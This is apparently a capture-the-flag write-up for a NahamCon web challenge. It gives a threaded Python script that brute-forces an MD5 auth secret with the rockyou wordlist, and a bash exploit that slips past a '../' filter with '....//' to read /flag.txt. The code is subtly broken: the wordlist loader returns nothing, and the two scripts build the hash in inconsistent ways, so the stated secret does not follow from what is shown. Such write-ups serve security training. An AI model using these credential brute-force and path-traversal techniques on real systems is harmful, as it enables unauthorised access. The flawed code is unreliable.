 <details><summary>server-code/index.php</summary></details>

Bruteforce for `$secret`:

```python
from hashlib import md5
from concurrent.futures import ThreadPoolExecutor
import requests

BASE_URL = "http://challenge.nahamcon.com:30781"

s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}


def load_wordlist(wordlist):
    print("[+] load wordlist")

    with open(wordlist, "r", encoding="latin-1") as f:
        words = f.read().splitlines()


def brute(words):
    def hash_and_request(word):
        hash = md5(f"listing.{word}".encode()).hexdigest()
        resp = s.get(f"{BASE_URL}/cmd/?type=listing&location=.&auth={hash}")
        return word, resp.text

    print("[+] start request")
    with ThreadPoolExecutor(max_workers=1000) as executor:
        for result in executor.map(hash_and_request, words):
            word, resp = result

            print(word, end="\r")

            if "Invalid auth parameter" not in resp:
                print(f"got it: {word}\n\n")


if __name__ == "__main__":
    words = load_wordlist("/usr/share/wordlists/rockyou.txt")

    brute(words)
```

Got secret `the_25mission`.

In server-code/index.php, we know that `../` is being replaced with an empty string, so `....//` is replaced with `../`.
Using this, we can retrieve `/flag.txt` using a relative path.

exploit.sh

```bash
#!/bin/bash

type=${1:-listing}
file=${2:-.}

replaced_file=$(echo "${file}" | sed -e 's|\.\./||g')
echo ${replaced_file}

auth=$(echo -n "${type}${replaced_file}the_25mission" | md5sum | cut -d' ' -f 1)

echo $auth
curl "http://challenge.nahamcon.com:30781/cmd/?type=${type}&location=${file}&auth=${auth}"
```
